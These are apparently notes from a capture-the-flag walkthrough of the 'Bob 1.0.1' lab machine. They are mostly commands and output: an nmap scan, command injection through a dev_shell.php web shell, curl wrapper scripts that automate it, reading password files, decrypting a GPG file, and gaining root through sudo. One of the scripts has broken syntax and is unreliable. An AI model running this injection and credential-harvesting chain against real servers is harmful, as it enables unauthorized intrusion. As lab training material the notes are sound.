https://hackso.me/bob-1.0.1-walkthrough/
https://resources.infosecinstitute.com/topic/bob-1-0-1-ctf-walkthrough/

└─$ sudo nmap -sT -A  -Pn -n  -p- 192.168.110.11 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-12 16:36 CEST
Nmap scan report for 192.168.110.11
Host is up (0.00051s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 4 disallowed entries 
| /login.php /dev_shell.php /lat_memo.html 
|_/passwords.html
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
25468/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 84:f2:f8:e5:ed:3e:14:f3:93:d4:1e:4c:41:3b:a2:a9 (RSA)
|   256 5b:98:c7:4f:84:6e:fd:56:6a:35:16:83:aa:9c:ea:f8 (ECDSA)
|_  256 39:16:56:fb:4e:0f:50:85:40:d3:53:22:41:43:38:15 (ED25519)
MAC Address: 08:00:27:B4:F5:10 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.51 ms 192.168.110.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.00 seconds


http://192.168.110.11/dev_shell.php
grep '[a-zA-Z0-9]' /etc/passwd
root:x:0:0:root:/root:/bin/bash
c0rruptedb1t:x:1000:1000:c0rruptedb1t,,,:/home/c0rruptedb1t:/bin/bash
bob:x:1001:1001:Bob,,,,Not the smartest person:/home/bob:/bin/bash
jc:x:1002:1002:James C,,,:/home/jc:/bin/bash
seb:x:1003:1003:Sebastian W,,,:/home/seb:/bin/bash
elliot:x:1004:1004:Elliot A,,,:/home/elliot:/bin/bash 

more /etc/passwd
id|ls -al


#!/bin/bash

HOST=192.168.20.130
SHELL=dev_shell.php
CMD="find $1 -ls"

curl \
        -s \
        --data-urlencode "in_command=$CMD" \
        $HOST/$SHELL \
| sed '/<h5>/,/<\/div>/!d' \
| sed -r -e '1d' -e '$d' -e 's/^\s+//' \


#!/bin/bash

$CMD=$1
curl -s --data-urlencode "in_command=$CMD" /home/" http://192.168.110.11/dev_shell.php | sed '/<h5>/,/<\/div>/!d' | sed -r -e '1d' -e '$d' -e 's/^\s+//'


┌──(kali㉿kali)-[~/OSCP/boxes/Bob]
└─$ ./test.sh "id|ls /home"
bob
elliot
jc
seb


└─$ ./test.sh "id|more /home/bob/.old_passwordfile.html" 
uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users)
::::::::::::::
/home/bob/.old_passwordfile.html
::::::::::::::
<html>
<p>
jc:Qwerty
seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
</p>
</html>


seb@Milburg-High:/home/bob/Documents$ ls -al
total 20
drwxr-xr-x  3 bob bob 4096 Mar  5  2018 .
drwxr-xr-x 18 bob bob 4096 Mar  8  2018 ..
-rw-r--r--  1 bob bob   91 Mar  5  2018 login.txt.gpg
drwxr-xr-x  3 bob bob 4096 Mar  5  2018 Secret
-rw-r--r--  1 bob bob  300 Mar  4  2018 staff.txt

seb@Milburg-High:/home/bob/Documents/Secret/Keep_Out/Not_Porn/No_Lookie_In_Here$ cat notes.sh 
#!/bin/bash
clear
echo "-= Notes =-"
echo "Harry Potter is my faviorite"
echo "Are you the real me?"
echo "Right, I'm ordering pizza this is going nowhere"
echo "People just don't get me"
echo "Ohhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh <sea santy here>"
echo "Cucumber"
echo "Rest now your eyes are sleepy"
echo "Are you gonna stop reading this yet?"
echo "Time to fix the server"
echo "Everyone is annoying"
echo "Sticky notes gotta buy em"


seb@Milburg-High:/home/bob/Documents$ cat staff.txt 
Seb:

Seems to like Elliot
Wants to do well at his job
Gave me a backdoored FTP to instal that apparently Elliot gave him

James:

Does nothing
Pretty Lazy
Doesn't give a shit about his job

Elliot:

Keeps to himself
Always needs to challenge everything I do
Keep an eye on him
Try and get him fired




elliot@Milburg-High:/home/bob/Documents$ gpg -d --passphrase HARPOCRATES --batch login.txt.gpg 
gpg: keybox '/home/elliot/.gnupg/pubring.kbx' created
gpg: AES encrypted data
gpg: encrypted with 1 passphrase
bob:b0bcat_
elliot@Milburg-High:/home/bob/Documents$ su bob
Password: 
bob@Milburg-High:~/Documents$ sudo -l
sudo: unable to resolve host Milburg-High: Connection refused
[sudo] password for bob: 
Matching Defaults entries for bob on Milburg-High:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User bob may run the following commands on Milburg-High:
    (ALL : ALL) ALL
bob@Milburg-High:~/Documents$ sudo id
sudo: unable to resolve host Milburg-High: Connection refused
uid=0(root) gid=0(root) groups=0(root)
bob@Milburg-High:~/Documents$ 
